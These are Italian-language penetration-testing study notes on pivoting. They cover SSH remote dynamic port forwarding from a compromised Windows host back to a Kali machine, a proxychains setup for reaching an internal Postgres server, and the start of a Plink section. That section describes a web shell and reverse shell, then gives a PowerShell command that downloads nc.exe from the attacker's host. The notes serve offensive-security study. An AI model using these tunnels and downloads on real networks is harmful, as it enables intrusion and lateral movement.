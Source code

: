 Scopriamo la posizione di ssh sulla macchina e controlliamo la versione per capire se è possibile utilizzare il _remote dynamic port forwarding_ (OpenSSH maggiore di 7.6):

```bash
where ssh

ssh.exe -V
```

Successivamente lanciamo il seguente comando per avviare il _Remote Dynamic Port Forwarding_:

```bash
ssh -N -R 9998 kali@$IP_1_MACCHINA
```

Per verificare la connessione lanciamo questo comando su kali (1 macchina):

```bash
sudo ss -ntplu
```

Occorre modificare il file /etc/proxychains4.conf per permettere al tool _proxychains_ di localizzare la nostra porta proxy SOCKS. Bisogna aggiungere al file di configurazione questo:

```bash
...
[ProxyList]
socks5 127.0.0.1 9998
```

Ora può essere utilizzato il seguente comando:

```bash
proxychains psql -h $IP_3_MACCHINA -U postgres
```

## 18.4.2. Plink

Non è sempre facile rilevare un client OpenSSH. Tuttavia, capita spesso di trovare tool di amministrazione remota. La maggior parte delle reti dispone di server SSH in esecuzione da qualche parte e gli amministratori necessitano di strumenti per connettersi a questi server da host Windows. Prima che OpenSSH fosse così facilmente disponibile su Windows, gli strumenti preferiti dalla maggior parte degli amministratori di rete erano PuTTY e la sua controparte solo da riga di comando, Plink.

Nello scenario proposto, la 2 macchina ha un'applicazione web esposta sulla porta TCP 80. Tutte le altre porte in entrata sono bloccate da un firewall, quindi neanche RDP è più disponibile.

![[plink.png]]

Possiamo compromettere la 2 macchina tramite l'applicazione web, creare una web-shell e ottenere una shell inversa utilizzando quella. Abbiamo le credenziali RDP, ma è bloccato dal firewall, quindi non possiamo connetterci direttamente. Anche il client OpenSSH è stato rimosso, quindi non possiamo utilizzare _Remote Dynamic Port Forwarding.

Tramite web-shell scarico nc.exe su windows:

```bash
powershell wget -Uri http://$IP_KALI:8080/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
